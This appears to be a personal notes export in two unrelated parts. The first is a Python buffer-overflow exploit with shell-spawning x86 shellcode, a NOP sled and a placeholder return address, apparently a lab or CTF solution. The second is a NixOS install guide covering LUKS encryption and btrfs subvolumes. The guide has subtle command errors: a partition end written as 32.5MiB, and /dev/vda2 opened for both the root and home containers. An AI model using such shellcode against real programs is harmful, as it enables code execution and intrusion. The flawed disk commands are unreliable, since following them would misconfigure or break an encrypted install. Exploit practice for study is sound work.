 ```python
import sys

OFFSET      = b"\x41"
EIP         = b"\x38\xcd\xff\xff" # PLEASE FIND THE CORRECT EIP FOR EVERY COMPUTER MEMORY ADDRESS. DO NOT USE THIS ADDRESS SINCE IT'S DIFFERENT FOR ALL COMPUTERS
NOP         = b"\x90" 

SHELLCODE   = b"\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
SHELLCODE2  = b"\x31\xc0\x40\x89\xc3\xcd\x80"

exploit     = SHELLCODE2 + NOP*5 + EIP
sys.stdout.buffer.write(exploit)
```

continuation of [[2024-02-11]]. solution to [[2024-02-09]]. other example in [[2024-02-01]]

---

#nixos #nixos-installation 

# partitioning the drive

1. Set partition table to GPT

```sh
#parted /dev/<device> -- mklabel gpt
parted /dev/vda -- mklabel gpt
```

2. Create boot partition

```sh
#parted /dev/<device> -- mkpart ESP fat32 1MiB 512MiB
parted /dev/vda -- mkpart ESP fat32 1MiB 512MiB
```

3. Set ESP boot flag

```sh
#parted /dev/<device> -- set <partition number> <partition label> on
parted /dev/vda -- set 1 ESP on
```

4. Create root and home partition

```sh
#parted /dev/<device> -- mkpart root <file system> <start> end>
parted /dev/vda -- mkpart root btrfs 512MiB 32.5MiB
parted /dev/vda -- mkpart home btrfs 32.5GiB 100%
```

simpler version

```sh
parted /dev/vda
mklabel gpt
mkpart ESP fat32 1MiB 512MiB
set 1 ESP on
mkpart root btrfs 512MiB 32.5GiB
mkpart home btrfs 32.5GiB 100%
```

`print` to verify

# formatting with luks encryption

1. format boot partition (no encryption)

```sh
mkfs.fat -F 32 -n boot /dev/vda1
```

2. format root and home partitions with luks

```sh
#cryptsetup --verify-passphrase -v luksFormat <partition>
cryptsetup --verify-passphrase -v luksFormat /dev/vda2
cryptsetup --verify-passphrase -v luksFormat /dev/vda3
```

> [!NOTE]
> This does not include a label to the luks container. Use `cryptsetup config <luks container> --label <label>` to add a label.

3. mount encrypted partitions

```sh
#cryptsetup open <partition> <label>
cryptsetup open /dev/vda2 root_luks
cryptsetup open /dev/vda2 home_luks
```

4. partition home and root

```sh
#mkfs.btrfs -L <label> <luks dev mapper name>
mkfs.btrfs -L nixos /dev/mapper/root_luks
mkfs.btrfs -L home /dev/mapper/home_luks
```
i use `root` and `home` to have separate partition labels. this causes an issue in booting if labels are the same. the labels here might be used by `/dev/disk/by-label/`.

5. mounting root and home partitions

```sh
#mount -t <file system> /dev/mapper/<partition> </mnt locations>
mount -t btrfs /dev/mapper/root_luks /mnt
mount -t btrfs /dev/mapper/home_luks /mnt/home
```

do `mkdir /mnt/home` if directory does not exist

6. creating subvolumes

```sh
btrfs subvolume create /mnt/root
btrfs subvolume create /mnt/nix
btrfs subvolume create /mnt/persist
btrfs subvolume create /mnt/log
btrfs subvolume snapshot -r /mnt/root /mnt/root-blank
```

7. unmount

```sh
umount /mnt/home
umount /mnt
```

8. mount root and home, and others

```sh
mount -o subvol=root,compress=zstd,noatime,ssd,space_cache=v2 /dev/mapper/root_luks /mnt
```

9. create directories for mount point

```sh
mkdir /mnt/home
mkdir /mnt/nix
mkdir /mnt/persist
mkdir -p /mnt/var/log
```

10. mount home and subvolumes

```sh
mount -o compress=zstd,relatime,ssd,space_cache=v2 /dev/mapper/home_luks /mnt/home
mount -o subvol=nix,compress=zstd,noatime,ssd,space_cache=v2 /dev/mapper/root_luks /mnt/nix
mount -o subvol=persist,compress=zstd,noatime,ssd,space_cache=v2 /dev/mapper/root_luks /mnt/persist
mount -o subvol=log,compress=zstd,noatime,ssd,space_cache=v2 /dev/mapper/root_luks /mnt/var/log
```

11. mount boot

```sh
mkdir /mnt/boot
#mount /dev/<partition> /mnt/boot
mount /dev/vda1 /mnt/boot
```

12. generate nixos-config

```sh
nixos-generate-config --root /mnt
```

